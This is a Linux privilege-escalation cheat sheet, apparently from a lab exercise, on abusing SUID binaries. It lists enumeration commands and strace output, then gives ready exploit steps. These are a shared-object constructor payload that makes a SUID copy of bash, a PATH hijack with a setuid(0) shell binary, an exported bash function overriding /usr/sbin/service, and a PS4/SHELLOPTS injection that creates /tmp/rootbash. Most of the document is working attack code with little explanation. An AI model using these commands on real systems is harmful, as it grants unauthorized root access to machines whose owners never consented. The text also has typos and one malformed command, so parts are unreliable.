 * [OUTPUT](#output)


## Enumeration
    
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
     https://gtfobins.github.io/
       
  ## Shared Object Injection
  
    find / -type f -perm -04000 -ls 2>/dev/null
    strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
    strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
    #include <stdio.h>
    #include <stdlib.h>

    static void inject()__attribute__((constructor));

    void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
   
   ## Complie

    gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c


  ## Run The Program
  
    /usr/local/bin/suid-so

   ####  Environment Variables
                
    env
    find / -type f -perm -04000 -ls 2>/dev/null
    /usr/local/bin/suid-env
    strings /usr/local/bin/suid-env
    echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
    gcc /tmp/service.c -o /tmp/service
    export PATH=/tmp:$PATH
    print $PATH
    /usr/local/bin/suid-env
    function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
    export -f /usr/sbin/service
    /usr/local/bin/suid-env2



   
   ##  evn
     
   This will not work on Bash versions 4.4 and above
  ''' 
   When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
   ,,,
   Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of          /bin/bash:
 
      env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
      /tmp/rootbash -p
     
    
